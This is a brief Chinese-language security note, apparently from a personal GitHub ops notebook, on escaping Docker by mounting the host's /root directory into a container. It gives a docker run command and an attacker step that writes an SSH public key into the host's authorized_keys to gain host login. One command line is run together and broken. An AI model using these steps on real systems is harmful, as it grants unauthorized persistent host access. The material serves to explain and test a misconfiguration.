

# 危险挂载导致Docker 逃逸

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BDocker%2B%E6%BC%8F%E6%B4%9E-%E5%8D%B1%E9%99%A9%E6%8C%82%E8%BD%BD%E5%AF%BC%E8%87%B4Docker%20%E9%80%83%E9%80%B8.md)

## 挂载敏感目录（-v /:/soft）

漏洞测试：
将宿主机root目录挂载到容器

```bash
docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
```

模拟攻击者写入ssh密钥

```
mkdir /root/.sshcat id_rsa.pub >> /root/.ssh/authorized_keys
```

利用私钥成功登录。获取宿主机权限。


